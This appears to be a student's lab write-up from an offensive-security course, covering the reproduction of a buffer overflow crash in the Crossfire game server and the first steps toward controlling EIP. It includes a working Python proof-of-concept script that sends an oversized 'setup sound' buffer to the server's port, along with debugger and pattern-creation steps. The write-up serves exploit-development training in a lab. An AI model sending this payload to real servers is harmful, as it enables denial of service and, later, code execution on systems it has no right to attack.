 # 12.2.1 - Replicating the Crash

#### Exercises

_(To be performed on your own Kali and Debian lab client machines - Reporting is required for these exercises)_

1.  Log in to your dedicated Linux client using the credentials you received.
In order to login to our linux client we simply need to start the machine and then rdesktop with our credentials.
`rdesktop -u student -g 1024x768 -r clipboard:CLIPBOARD 192.168.233.44`

In preperation for the remaining tasks we must also launch the "Crossfire" application
![[crossfire_start.png]]

2.  On your Kali machine, recreate the proof-of-concept code that crashes the Crossfire server.
Once the application is running we can use the following code on our Kali machine to crash the application 
```python
#!/usr/bin/python3
import socket

ip = "192.168.233.44"
port = 13327

crash = "\x41" * 4379
buffer = "\x11(setup sound " + crash + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```




3.  Attach the debugger to the Crossfire server, run the exploit against your Linux client, and confirm that the EIP register is overwritten by the malicious buffer.
We need to start edb, attach to crossfire, and put crossfire into "Run" mode.
![[edb_running.png]]
Once this is complete we can execute our PoC code on our Kali machine to observe the crash.

![[edb_crossfire_crash.png]]


# 12.3.1 Controlling EIP
#### Exercises

_(To be performed on your own Kali and Debian lab client machines - Reporting is required for these exercises)_

1.  Determine the correct buffer offset required to overwrite the return address on the stack.
First we must create a pattern via msfvenom, we do this with the following command:
`msf-pattern_create -l 4379 `

We then add the pattern to our PoC, replacing the initial string of A's.



2.  Update your stand-alone script to ensure your offset is correct.